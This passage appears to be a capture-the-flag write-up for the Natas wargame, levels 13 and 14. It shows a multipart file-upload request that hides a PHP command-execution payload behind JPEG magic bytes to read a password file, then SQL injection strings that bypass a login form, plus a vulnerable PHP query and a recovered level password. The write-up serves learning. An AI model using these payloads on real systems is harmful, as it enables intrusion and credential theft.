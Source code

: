 ```
1000
-----------------------------407631586217772423313341340899
Content-Disposition: form-data; name="filename"

0bdtv084wp.php
-----------------------------407631586217772423313341340899
Content-Disposition: form-data; name="uploadedfile"; filename="13.jpeg"
Content-Type: image/jpeg

ÿØÿÛ<?php echo exec("cat /etc/natas_webpass/natas13"); ?>

-----------------------------407631586217772423313341340899--
```

I then did the same trick to resend the http request, changing the .jpeg extension to .php and presto chango we have out creds for the next level.

`natas14:qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`
## Natas 14 

A basic sqli login form challenge!

```
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>

```

I tried `admin" or "1"="1" --` and got
```
Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in /var/www/natas/natas14/index.php on line 24
Access denied!
```

I decided to try the same string but with different comment characters to see if that works. I tried `admin" or "1"="1" #` for both fields and got the password!

